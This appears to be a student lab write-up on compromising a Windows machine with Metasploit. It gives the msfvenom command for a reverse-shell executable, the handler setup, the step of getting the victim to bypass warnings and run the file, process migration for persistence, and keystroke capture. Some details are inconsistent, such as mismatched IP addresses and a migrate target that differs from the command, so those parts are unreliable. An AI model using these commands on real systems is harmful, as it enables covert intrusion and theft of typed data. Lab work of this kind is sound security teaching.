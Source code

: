 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:

![Screenshot 2025-04-07 105134](https://github.com/user-attachments/assets/e2500488-3f5b-4c30-b9b4-bf51a07927ad)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT

![Screenshot 2025-04-07 105158](https://github.com/user-attachments/assets/9e750d89-8ae7-4f7c-92ed-3893b710ae20)

copy the fun.exe into the apache /var/www/html folder
![Screenshot 2025-04-07 110804](https://github.com/user-attachments/assets/3ff847bb-f818-4291-a8b6-03464bde5cb2)


Start apache server
sudo systemctl apache2 start
![Screenshot 2025-04-07 105238](https://github.com/user-attachments/assets/e8a4a737-b511-4415-b7f1-c408ed5db76a)


Check the status of apache2

![Screenshot 2025-04-07 105256](https://github.com/user-attachments/assets/54e60191-b3bc-47e4-ae4c-9756ed968711)


Invoke msfconsole:
## OUTPUT:
![Screenshot 2025-04-07 105314](https://github.com/user-attachments/assets/cb00ab80-dfdd-45a7-bffa-6c60aac4f457)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![Screenshot 2025-04-07 111200](https://github.com/user-attachments/assets/70814520-7a08-41aa-96c6-516ce618103e)


Starting a command and control Server
use multi/handler
![Screenshot 2025-04-07 105348](https://github.com/user-attachments/assets/dcd808fe-8ada-4718-a016-bd300ff59cb3)

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.220.129/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2025-04-07 104633](https://github.com/user-attachments/assets/e49015da-642f-42c7-a65b-95fb50607186)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![Screenshot 2025-04-07 105348](https://github.com/user-attachments/assets/9e1bddfb-a717-45c3-8600-623bc5f7eecd)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![Screenshot 2025-04-07 105412](https://github.com/user-attachments/assets/a0514241-7ee8-4add-9aa0-23e9cab64e98)

![Screenshot 2025-04-07 104729](https://github.com/user-attachments/assets/198c16ca-e2d4-4267-b7b7-a225f771f9fa)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![Screenshot 2025-04-07 112147](https://github.com/user-attachments/assets/01f0e0a6-1033-4cbf-938f-8d3db3099bde)


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Screenshot 2025-04-07 112333](https://github.com/user-attachments/assets/e12db1cf-bc7b-4e67-a3d2-c4a1112f7801)

keyscan_dump	Shows the keystrokes captured so far

![Screenshot 2025-04-07 105459](https://github.com/user-attachments/assets/6f268428-e4af-45b3-83f2-f7c8a5bbc8a9)







## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
